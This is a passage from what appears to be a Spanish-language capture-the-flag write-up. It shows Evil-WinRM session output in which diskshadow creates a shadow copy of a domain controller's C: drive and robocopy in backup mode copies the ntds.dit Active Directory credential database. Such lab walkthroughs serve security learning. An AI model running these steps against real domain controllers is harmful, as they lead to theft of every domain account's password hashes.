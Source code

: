 Una vez subido ejecutamos estos comandos:

```winrm
*Evil-WinRM* PS C:\ProgramData> diskshadow /s elc4br4.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/27/2022 1:01:36 PM

-> set context persistent nowriters
-> add volume c: alias raj
-> create
Alias raj for shadow ID {e11c7a09-e980-49d8-9e30-e8f4ed101d3c} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {6be231cf-7fa4-41ee-9ca8-b8d278040097} set as environment variable.

Querying all shadow copies with the shadow copy set ID {6be231cf-7fa4-41ee-9ca8-b8d278040097}

	* Shadow copy ID = {e11c7a09-e980-49d8-9e30-e8f4ed101d3c}		%raj%
		- Shadow copy set: {6be231cf-7fa4-41ee-9ca8-b8d278040097}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 9/27/2022 1:01:37 PM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %raj% z:
-> %raj% = {e11c7a09-e980-49d8-9e30-e8f4ed101d3c}
The  drive letter is already in use.
```

```winrm
*Evil-WinRM* PS C:\ProgramData> robocopy /b z:\windows\ntds . ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, September 27, 2022 1:04:39 PM
   Source : z:\windows\ntds\
     Dest : C:\ProgramData\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

	                  1	z:\windows\ntds\

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         0         1         0         0         0
   Bytes :   18.00 m         0   18.00 m         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00
   Ended : Tuesday, September 27, 2022 1:04:39 PM
```
